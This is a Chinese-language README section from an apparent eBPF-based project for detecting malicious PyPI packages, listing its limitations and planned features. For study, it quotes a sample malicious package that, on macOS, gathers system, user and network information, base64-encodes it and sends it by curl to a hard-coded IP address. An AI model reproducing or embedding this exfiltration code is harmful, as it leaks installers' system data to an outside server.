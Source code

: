 ## 0x03 问题&留坑
### 3.1 问题
- ebpf监控力度粗于python3 rasp的方式，导致系统级别噪声过多，在后置聚合、关联、检测能力较弱的情况下，较难完成预期的恶意包判责，易陷入误报/漏洞的跷跷板中。


### 留坑
两个周末完成的工程中留下的小坑也不少，后续如有时间会做fix
- ebpf中sys_exec只获取pid\comm\filename，缺失后置判责逻辑中的强需的avg信息
- server中main.py获取新增pypi package中应修改为threading+asyncio方式，且目前仅获取新增package未判断version粒度变化
- server中的runner.py判责逻辑只做简单黑白名单规则，没有根据多hook信息中pid做关联、聚合等逻辑

## 0x04 feature
### 4.1 特定OS恶意行为触发
发现部分恶意包会判断操作系统类型，在macos下会执行采集信息等恶意动作，由于ebpf运行在linux下故暂时不能触发恶意行为并检出，故暂时是否可以通过AST的方式去做白盒的检出。对应feature_ast_os_diff分支，恶意包举例：
```python
kwxiaodian

if sys.platform == 'darwin':
    def get_info():
        version = sys.version
        uname_string = str(os.popen("uname -a").read())
        id_string = str(os.popen("id").read())
        pwd_string = str(os.popen('pwd').read())
        ip_string = str(os.popen('ifconfig').read())
        info = {
            "uname": uname_string,
            "id": id_string,
            "pwd": pwd_string,
            "ip": ip_string
        }
        if version[0] == '2':
            info = base64.b64encode(json.dumps(info))
        else:
            info = base64.b64encode(json.dumps(info).encode('utf-8')).decode()
        print(info)

        url = 'http:/81.70.191.194:14333/start/' + info
        os.system('curl -m 3 -s -o /dev/null ' + url)
```

### 4.2 报名混淆相似度检出
看到[Beyond Typosquatting, An In-depth Look at
Package Confusion
](https://www.usenix.org/system/files/sec23_slides_neupane.pdf) 其中提到13中容易混淆导致误用package的情况，故是否可以利用当前已检出的packagename、全量package做样本判断是否是恶意包，用来做辅助分析。当前已给出的恶意package请参考```/small_sample/package`.json```

### 4.3 dns hook
通过hook```getaddrinfo```函数可以获取通过curl/wget等方式的dns查询，但是无法获取nslook不通过getaddrinfo函数的数据
相关恶意包case  

